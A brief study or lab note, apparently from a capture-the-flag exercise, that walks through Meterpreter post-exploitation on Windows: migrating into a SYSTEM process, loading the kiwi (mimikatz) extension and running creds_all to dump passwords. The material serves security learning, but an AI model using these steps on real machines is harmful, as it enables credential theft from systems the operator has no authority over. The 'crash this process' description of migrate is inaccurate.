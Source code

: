 1.
List running processes -> ps (Ps we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't).
2.
Find a process running with same permissions as lsass - but not ran by NT
3.
Crash this process -> migrate -N PROCESS_NAME
4.
You should be root -> check by getuid

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
5.
Password dump, we'll use kiwi -> load kiwi

Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > <http://blog.gentilkiwi.com/mimikatz>
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > <http://pingcastle.com> / <http://mysmartlogon.com>  ***/

Success
6.
Let's see the passwords! -> creds_all



PS
after you load kiwi see the commands with help